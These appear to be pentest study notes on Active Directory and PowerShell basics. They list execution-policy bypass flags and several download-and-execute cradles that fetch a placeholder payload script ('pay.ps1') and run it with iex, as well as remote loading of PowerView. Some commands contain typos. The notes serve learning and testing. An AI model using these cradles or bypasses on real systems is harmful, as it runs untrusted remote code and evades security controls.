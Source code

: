 # AD Basics & PowerShell Basics

## AD Basics

* Components of AD
  * Shema - Defines objects and their attributes
  * Query and index mechanisem
  * Global catalog - Information about every object
  * Replication service - Distributes information accross domain controllers
* A forest - which is a security boundary - may contain multiple domains and each domain may contain multiple Ous

### How to interact with Active Directory

* \[ADSI]
* .NET Classes (System.DirectoryServices.ActiveDirectoryy)
* Native Executables (like net….)
* PowerShell (.NET classes and WMI)

## Powershell Basics

With PowerShell Scripts you can use cmdlets, native commands, functions, .net, dlls, Windows API

### Help Command

Get-Help \* - Lists everything abtout the help topic

Get-Help process (lists everything which contains the word process)

Update-Help - Update the healp system (v3+)

Get-help cmdlet\_name -Full - List full help about a topic

Get-Help cmdlet\_name -Examples

Get-command -CommandType cmdlet - List all cmdlets

&#x20;

### Execution Policy

It is NOT a security boundary

Powershell -exectionpolicy bypass\
powershell -ep bypass\
Powershell -c \<cmd>\
Powersehll -encodedcommand $env:PSExecutionPolicyPreference="bypass"

&#x20;

### Execute .PS1 File / PowerView

. .\PowerView.ps1

iex(iwr https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1 -UseBasicParsing)

### Execute AD Module

Download [https://github.com/samratashok/ADModule](https://github.com/samratashok/ADModule)

Import-Module .\Microsoft.ActiveDirectory.Management.dll -Verbose\
Import-Module .\ActiveDirectory\ActiveDirectory.psd1

iex (new-Object Net.WebClient).DownloadString('[https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory](https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1'\);Import-ActiveDirectory)

To be able to list all the cmdlets in the module, import the module as well. Remember to import the DLL first.\
Import-Module C:\ADModule\Microsoft.ActiveDirectory.Management.dll -Verbose\
Import-Module C:\AD\Tools\ADModule\ActiveDirectory\ActiveDirectory.psd1\
Get-Command -Module ActiveDirectory

### Module

Import a module/file\
Import-Module \<modulepath>

List all commands of a module:\
Get-Command -Module \<modulename>

&#x20;

### Download and execute PowerShell Scripts

iex (New-Object Net.WebClient).DownloadString('https://webserver/pay.ps1') - Invoke Expression (iex alias)

&#x20;**Use a COM Object**

$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('https://webserver/pay.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response

**PSv3 or newer**

Iex (iwr '[http://websever/ps.ps1](http://websever/ps.ps1)') -iwr is alias for invoke-web request

&#x20;$h=New-Object -ComObject\
Msxml2.xmlhttp;$h.open('GET','http://webserver/ps.ps1',$fasle);$h.send();iex $h.responseText

&#x20;$wr = \[System.NET.WebRequest]::Create("http://werbser.ps.ps1")\
$r = $wr.GetResponse()\
IEX (\[System.IO.StreamReader]\($r.GetResponseStream())).ReadToEnd()

&#x20;







